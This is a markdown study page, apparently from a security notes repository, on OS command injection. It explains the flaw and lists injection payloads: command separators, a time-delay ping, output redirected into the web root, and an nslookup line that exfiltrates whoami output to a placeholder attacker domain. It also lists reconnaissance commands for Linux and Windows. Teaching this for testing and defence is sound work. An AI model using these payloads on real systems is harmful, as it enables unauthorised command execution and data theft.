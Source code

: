 # OS Command injection

OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, and exploit trust relationships to pivot the attack to other systems within the organization.

### Talbe of content

- [OS injection](#os-command-injection)
- [Bind OS injection](#blind-command-injection)
    - [Dectect blind injection using time delays](#dectect-blind-injection-using-time-delays)
    - [Redirect output](#redirecting-output)
    - [Exploiting blind OS command injection using out-of-band (OAST) techniques](#exploiting-blind-os-command-injection-using-out-of-band-oast-techniques)
- [Usefull command to execute](#usefull-command-to-execute)

## Os command injection

In this example, a shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL: `https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments: `stockreport.pl 381 29`

This command outputs the stock status for the specified item, which is returned to the user.

The application implements no defenses against OS command injection, so an attacker can submit the following input to execute an arbitrary command: `& echo aiwefwlguh &`

If this input is submitted in the productID parameter, the command executed by the application is: `stockreport.pl & echo aiwefwlguh & 29`

## Blind command injection

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

### Dectect blind injection using time delays

You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond.

```bash
& ping -c 10 127.0.0.1 &
```

### Redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location /var/www/static, then you can submit the following input:

```sh
& whoami > /var/www/static/whoami.txt &
```

### Exploiting blind OS command injection using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.

The out-of-band channel provides an easy way to exfiltrate the output from injected commands:

```sh
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command:

wwwuser.kgji2ohoyw.web-attacker.com

## Usefull command to execute

### Get informations on the system:

linux | windows | info
--- | --- | ---
`whoami` | `whoami` | current user name
`uname -a` | `ver` | operating system
`ifconfig` | `ipconfig /all` | network conf
`netstat -an` | `netstat -an` | network connections
`ps -ef` | `tasklist` | running process

### Way of injecting OS command

Command separator:

```bash
&
&&
|
||
```

Only work on linux:

```sh
;

#newline :
0x0a or \n

# inline exec of a injec command within the original command
`whoami`
$(whoami)
```


### Documentation

- [portswigger](https://portswigger.net/web-security/os-command-injection)

---

[**:arrow_right_hook: Back home**](/README.md)